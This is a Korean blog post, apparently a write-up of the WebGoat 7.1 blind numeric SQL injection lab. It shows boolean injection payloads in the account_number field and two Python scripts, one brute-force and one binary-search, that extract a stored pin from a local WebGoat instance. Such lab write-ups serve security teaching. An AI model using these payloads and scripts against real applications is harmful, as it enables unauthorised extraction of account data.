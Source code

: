 ```yaml
---
title: "Webgoat7.1 Blind Numberic SQL Injection"
layout: post
date: 2020-04-22
image: /assets/images/mark-img01.png
headerImage: false
tag:
- sql
- blind
- injection
- exploit
category: blog
author: pil9

---
```

 
![problem]({{site.url}}/images/blind_p.png){: class="center"}
<figcaption class="caption">Blind sql injection 문제</figcaption>  
<br>
pins DB 테이블에서 cc_number가 '1111222233334444'인 pin 값을 찾는 문제입니다.

문제에서 사전에 주어진 정보는 테이블명(pins), 필드명(cc_number), 101 입니다.

<br>
![problem]({{site.url}}/images/p2.png){: class="center"}
<figcaption class="caption">유효 pin값은 101부터</figcaption>
<br>
위와 같이 쿼리에 논리식 대입이 가능하므로 출력되는 결과값을 기준으로 pin 값을 유추해 내면 됩니다.  

결과값으로 'Invalid account number'가 출력되면 조건식이 맞지 않는 것을 알 수 있습니다.

가장 먼저 pin값 자리수를 유추해야 하므로 100, 1000, 10000 등의 단위로 아래의 쿼리값을 반복해서 확인합니다.

<pre><code class = "language-sql">예시)
101 and (select pin from pins where cc_number = '1111222233334444' > 1000)
</code></pre>

pin 값이 1000보다 클 경우에는 'Account number is valid'

10000보다 클 경우에는 'Invalid account number' 가 출력되므로

조건식을 만족하는 pin 값의 범위는 1000 < pin < 10000 임을 유추할 수 있습니다.

약 9천개의 쿼리값을 다 날려볼 수는 없으므로 아래와 같은 exploit 코드를 작성하여 flag 값을 얻을 수 있습니다.

<pre><code class = "language-python">import requests

cookie = {'JSESSIONID':"C665F3601E7F6DE3D7F0FBB35EDE83C5"}
url = "http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100"
attack = "101 and (select pin from pins where cc_number='1111222233334444')="

for i in range(1000,10000):

    params = {'account_number':attack+str(i)}

    r = requests.post(url,data=params,cookies=cookie)
    if 'Account number is valid.' in r.text:

        print ('Account Number:',i)
        exit()
</code></pre>

<pre><code class="language-python">//결과 값
Account Number: 2364
</code></pre>

추가로 flag값의 범위가 클 경우 위와 같은 코드로는 시간이 오래 걸리므로 아래 코드와 같이 이진 탐색등의 탐색 알고리즘을 사용하여 작성하시면 됩니다.

<pre><code class="language-python">import requests

# 이진 탐색 알고리즘을 통한 flag 탐색 함수
def search(pin_data):
    start=0
    end = len(pin_data) -1
    while start <= end:
        mid = (start + end) // 2

        # 중간 값이 한개이면 flag
        if (end-start) == 2:
            return mid
        data={'account_number':"101 and (select pin from pins where cc_number = '1111222233334444' >=" +
        str(mid) + ")"}
        res=s.post(url, data=data)
        
        if 'Account number is valid' in res.text:
            start = mid + 1
        else:
            end = mid -1

# 로그인 세션 처리는 첫번째 코드로 해도 상관없음
login_url = 'http://localhost:8080/WebGoat/j_spring_security_check'
login_data = {
    'username' : 'guest','password' : 'guest'
}
url = 'http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100'

with requests.Session() as s:
    # 로그인 및 세션 저장(as s)
    res = s.post(login_url, data=login_data, verify=False, allow_redirects=False)
    
    # pin 초기 값 set
    pin=1
    
    # pin 자릿수 탐색
    for i in range(10):
        data={'account_number':"101 and (select pin from pins where cc_number = '1111222233334444' >=" +
        str(pin) + ")"}
        res=s.post(url, data=data)
        if 'Invalid account number' in res.text:
            pin=int(pin/10)
            break
        pin=int(pin*10)
    
    # 이진 탐색을 위한 리스트 생성
    li = [i for i in range(pin,pin*10+1)]
    
    # 정상 pin 값 서칭
    flag = search(li)

    print("AC NUMBER :",flag)
                

</code></pre>

<pre><code class="language-python">//결과값
AC Number: 2364
</code></pre>




